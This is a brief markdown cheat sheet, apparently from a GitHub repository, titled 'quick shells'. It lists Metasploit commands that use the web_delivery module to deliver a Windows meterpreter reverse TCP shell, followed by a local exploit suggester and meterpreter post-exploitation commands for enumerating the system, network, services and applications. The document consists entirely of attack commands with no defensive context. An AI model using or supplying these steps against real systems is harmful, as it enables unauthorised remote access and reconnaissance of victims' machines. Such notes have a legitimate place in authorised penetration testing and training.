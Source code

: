 # quick shells

### meterpreter

```bash
msfconsole
```

```
use exploit/multi/script/web_delivery
```

```
set payload windows/x64/meterpreter/reverse_tcp
```

```
set target 2
```

```
set LHOST eth0
```

```
run
```

### meterpreter cool stuff

```
post/multi/recon/local_exploit_suggester
```

### meterpreter shell commands

* `sysinfo`
* `getuid`
* `ipconfig`
* `arp`
* `run post/windows/gather/enum_services`
* `run post/windows/gather/enum_applications`
* `route`
* 
